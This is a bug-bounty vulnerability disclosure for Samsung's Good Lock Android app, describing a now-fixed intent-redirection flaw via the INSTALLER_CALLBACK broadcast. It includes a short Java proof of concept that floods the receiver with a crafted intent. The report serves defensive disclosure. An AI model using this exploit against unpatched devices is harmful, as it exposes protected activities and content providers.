

# Details

<table>
    <tr>
        <td>Name</td>
        <td>Good Lock</td>
    </tr>
    <tr>
        <td>Package name</td>
        <td><code>com.samsung.android.goodlock</code></td>
    </tr>
    <tr>
        <td>Reported date</td>
        <td>2022.09.30</td>
    </tr>
    <tr>
        <td>Fixed date</td>
        <td>2022.11.08</td>
    </tr>
    <tr>
        <td>Severity</td>
        <td>Low</td>
    </tr>
    <tr>
        <td>Handle</td>
        <td>N/A</td>
    </tr>
    <tr>
        <td>Reward</td>
        <td>$700</td>
    </tr>
</table>

# Description

Oversecured report:


Oversecured found a dynamic receiver registration in the Good Lock app with action `com.samsung.android.goodlock.INSTALLER_CALLBACK`. When receiving the broadcast, it received the `android.intent.extra.INTENT` parameter from the attacker and passed it to `Context.startActivity()`. This led to access to arbitrary activities and content providers with the flag `android:grantUriPermissions="true"`.

**Proof of Concept**

```java
new Thread(() -> {
    Intent next = new Intent(Intent.ACTION_VIEW, Uri.parse("http://google.com/"));

    Intent i = new Intent("com.samsung.android.goodlock.INSTALLER_CALLBACK");
    i.putExtra("android.intent.extra.INTENT", next);
    i.putExtra("android.content.pm.extra.STATUS", -1);

    while (true) {
        sendBroadcast(i);
        try {
            Thread.sleep(100);
        } catch (Throwable th) {
            return;
        }
    }
}).start();
```

## References

- [Oversecured Blog. Android: Access to app protected components](https://blog.oversecured.com/Android-Access-to-app-protected-components/)
- [Oversecured Blog. Gaining access to arbitrary* Content Providers](https://blog.oversecured.com/Gaining-access-to-arbitrary-Content-Providers/)
